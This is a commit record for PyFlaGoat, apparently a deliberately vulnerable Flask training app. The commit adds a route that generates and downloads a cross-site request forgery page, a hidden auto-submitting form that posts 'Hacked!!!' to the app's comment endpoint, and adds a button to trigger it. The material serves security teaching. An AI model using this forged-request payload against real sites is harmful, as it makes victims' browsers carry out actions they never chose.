

Before and after one commit to SP-Development-Team-1/PyFlaGoat, a Flask app: page /csrf in a window 1280 px wide. Shown: the part 64-1609 px from the top of the page at 77% size. After the commit the page ends 1520 px from the top, so only its background shows below. Run offline with Flask 2, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1); data comes from the database, SQL or seed files in the repository; data that the repository does not hold is empty; some libraries are stand-ins or nearby versions.

Commit message:
added automated CSRF file generation

```diff
--- a/app.py
+++ b/app.py
@@ -3,6 +3,7 @@ from flask_sqlalchemy import SQLAlchemy
 from datetime import datetime
 from sqlalchemy.sql import text
 from loguru import logger
+from io import StringIO
 import subprocess
 import random
 import os
@@ -637,6 +638,31 @@ def csrf_delete_comment(id):
     db.session.commit()
     return redirect('/csrf')
 
+@app.route('/csrf/download', methods=['GET', 'POST'])
+def csrf_download():
+    output_string = '''
+    <!DOCTYPE html>
+    <html lang = "en">
+    <head>
+    <meta charset="UTF-8">
+    <title>CSRF Hack</title>
+    </head>
+    <body onload="document.myform.submit()" style="display:none">
+    <form action="''' + request.url[:-9] + ''' " name="myform" method="POST">
+        <input class="form-control" value="Hacked!!!" name="comment" id="comment">
+    </form>
+    </body>
+    </html>
+    '''
+    output_stream = StringIO(output_string)
+    response = Response(
+        output_stream.getvalue(),
+        mimetype='text/html',
+        content_type='application/octet-stream',
+    )
+    response.headers["Content-Disposition"] = "attachment; filename=csrf_attack_page.html"
+    return response
+
 #############
 # DEBUGGING #
 #############
--- a/templates/csrf/csrf.html
+++ b/templates/csrf/csrf.html
@@ -6,6 +6,9 @@
 
 <div>
   <h1 style="display: inline">Cross Site Request Forgery</h1>
+  <form action="/csrf/download" method="POST" style="display: inline">
+    <input type="submit" class="btn btn-warning float-right" value="Generate CSRF &amp; Download">
+  </form>
 </div>
 
 <hr>
@@ -61,17 +64,10 @@
     <br>
     {% if g.user %}
       <input type="submit" class="btn btn-primary" value="Submit">
-      </form>
-
-      <hr>
-
-      <h3>Generate and download hack:</h3>
-      <button class="btn btn-danger" value="Download CSRF">
     {% else %}
       <p><input type="submit" class="btn btn-primary" value="Submit" disabled> &nbsp;&nbsp;### <a href="/login">Log in</a> to post a comment and enable request forgery.</p>
-      </form>
     {% endif %}
-
+  </form>
 <br><br><br>
 
 {% endblock %}
```
